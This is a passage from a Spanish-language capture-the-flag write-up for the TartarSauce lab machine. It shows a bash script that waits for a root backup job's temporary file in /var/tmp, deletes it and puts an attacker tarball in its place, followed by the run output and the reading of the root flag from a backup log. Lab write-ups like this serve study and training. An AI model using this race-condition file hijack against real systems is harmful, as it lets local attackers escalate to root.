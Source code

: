 
```console
#!/bin/bash

function ctrl_c(){
	echo -e "\n\n[!]Saliendo...\n"
	tput cnorm; exit 1
}

#Ctrl+C
trap ctrl_c INT

tput civis; while true; do
	filename="$(ls -la /var/tmp/ | grep -oP '\.\w{40}')"

	if [ "$filename" ]; then
		echo -e "\n[+] El archivo tiene nombre $filename\n"
		rm -f /var/tmp/$filename
		cp comprimido.tar /var/tmp/$filename
		echo -e "[+] El archivo ha sido secuestrado correctamente\n"
		tput cnorm; exit 0
	fi

done; tput cnorm
```
lo ejecutamos y vemos que ha sido agarrado el archivo que creo el script y se copio correctamente mi comprimido 

```console
onuma@TartarSauce:/dev/shm$ ./hijacking.sh 

[+] El archivo tiene nombre .cf01c0b5d9baa60163a9b0c7239fc6e6b6e28fd3

[+] El archivo ha sido secuestrado correctamente
```
ahora solo toca ver la parte de los logs del backup

```console
$ onuma@TartarSauce:/dev/shm$ cat /var/backups/onuma_backup_error.txt 
```
y logramos ver hasta abajo la flag de root

![](/assets/img/commons/TartarSauce/terminal9.png)





